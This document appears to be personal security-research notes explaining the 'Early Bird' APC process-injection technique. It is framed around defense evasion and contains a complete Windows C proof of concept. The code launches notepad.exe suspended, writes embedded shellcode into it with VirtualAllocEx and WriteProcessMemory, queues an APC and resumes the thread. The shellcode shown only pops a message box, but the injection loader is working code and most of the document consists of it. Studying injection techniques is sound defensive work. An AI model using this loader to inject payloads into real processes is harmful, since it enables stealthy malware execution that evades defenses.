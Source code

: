 ```yaml
---
description: 06/08/2023
---
```


# APC Injection -- "Early Bird Attack"

## What is the "Early Bird" attack?

This attack focuses on exploiting Asynchronous Procedure Calls (APC's).

#### What is an APC?

First thing's first, you need to understand what APC is. APC, or Acynchronous Procedure Call, is a function that will execute asynchronously within a particular thread.

#### How does the attack work?

This attack will force another thread to execute their custom code by attaching it to the APC queue of the targeted thread.&#x20;

A thread will then enter an alterable state once it begins to wait for further execution.

#### Good for defense evasion?

This technique will allow for injected code to run before the entry point of the main thread of the process.&#x20;

* This allows for major evasion and bypassing
* However, it will only work if the defenses are NOT placed before the main thread has its execution resumed.

## High-Level Explanation

1. Create a suspended process
2. Allocate and write malicious code into that process
3. Queue an APC to that process
4. Resume the main thread to execute the APC

## Physical Notes

<figure><img src="../.gitbook/assets/IMG_8837.jpg" alt="" width="375"><figcaption></figcaption></figure>

## Proof-of-Concept

**earlybird.c:**

```c
#include <stdio.h>
#include <windows.h>

int createProcessF()

{

    unsigned char buf[] = 
                            "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
                            "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
                            "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
                            "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
                            "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
                            "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
                            "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
                            "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
                            "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
                            "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
                            "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
                            "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
                            "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
                            "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
                            "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
                            "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
                            "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
                            "\x4c\x8d\x85\x2b\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
                            "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
                            "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
                            "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
                            "\xd5\x48\x65\x6c\x6c\x6f\x2c\x20\x66\x72\x6f\x6d\x20\x4d"
                            "\x53\x46\x21\x00\x4d\x65\x73\x73\x61\x67\x65\x42\x6f\x78"
                            "\x00";

    size_t shellcode = sizeof(buf);
    STARTUPINFOW si = {0};
    PROCESS_INFORMATION pi = {0};

    int createProcess = CreateProcessW(L"C:\\WINDOWS\\system32\\notepad.exe",NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

        if (!createProcess)

        {

            printf("(-) Process creation has failed please try again.\n Error: %ld", GetLastError);

            return EXIT_FAILURE;

        }

        else
        {

            printf("(+) Process was successfully created and started!\n PID: %ld", pi.dwProcessId);

            printf("\n\nProcess with PID:%ld has been started, goodbye.", pi.dwProcessId);

            //return EXIT_SUCCESS;

        }

    HANDLE hProcess = pi.hProcess;
    HANDLE hThread = pi.hThread;

    LPVOID shelladdress = VirtualAllocEx(hProcess, NULL, shellcode, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shelladdress;

    WriteProcessMemory(hProcess, shelladdress, buf, shellcode, NULL);
    QueueUserAPC((PAPCFUNC)shelladdress, hThread, NULL);
    ResumeThread(hThread);

    return 0;

}

int main()

{

printf("Starting notepad.exe as a new process...\n\n");

createProcessF();

}
```

<mark style="color:yellow;">This PoC will send</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`notepad.exe`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">into a suspended state and return a message box upon detonation</mark>.

#### References

{% embed url="https://www.ired.team/offensive-security/code-injection-process-injection/early-bird-apc-queue-code-injection" %}
